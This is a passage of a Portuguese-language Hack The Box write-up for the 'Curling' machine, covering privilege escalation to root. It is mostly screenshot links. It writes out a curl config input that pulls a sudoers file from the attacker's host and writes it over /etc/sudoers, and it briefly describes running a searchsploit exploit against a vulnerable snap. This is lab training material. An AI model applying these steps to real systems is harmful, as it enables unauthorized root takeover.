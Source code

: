 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_sudoers.png)

Ligamos nosso http server

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_sudoers2.png)

Modificamos o *input* e esperamos

> url = "http://10.10.16.119/sudoers"
> output = "/etc/sudoers"
> user-agent = "superagent/1.0"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_sudoers3.png)

Logamos como root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_sudoers4.png)

#### Pegamos a flag de user

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_user.png)

#### Pegamos a flag de root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_root.png)

### Nota 1

Podemos verificar esse cron através do `pspy`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_pspy.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_pspy1.png)

A partir dai começamos a verificar o que o -K faz e assim por diante

# Segundo modo para escalar privilégio

Através do `snap`, pela máquina ser Ubuntu ela vem com snap, verificando a versão dele, vemos que é uma versão vulnerável

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_snap.png)

Procuramos por exploits para snap através do searchsploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_snap1.png)

Executamos o exploit e viramos root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_snap4.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-curling/Curling_snap6.png)